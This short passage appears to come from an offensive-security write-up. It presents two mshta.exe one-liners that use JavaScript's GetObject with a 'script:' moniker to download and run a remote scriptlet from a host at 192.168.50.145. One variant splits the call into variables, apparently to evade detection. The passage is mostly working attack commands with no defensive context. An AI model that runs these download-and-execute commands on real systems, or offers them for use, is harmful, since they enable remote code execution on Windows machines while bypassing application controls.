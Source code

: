 We can execute `runner.sct` remotely with:

- `mshta.exe "javascript:GetObject('script:http://192.168.50.145/test.sct');close();"`
- `mshta.exe "javascript:a=GetObject;b='script:http://192.168.50.145/test.sct';a(b);close();"`

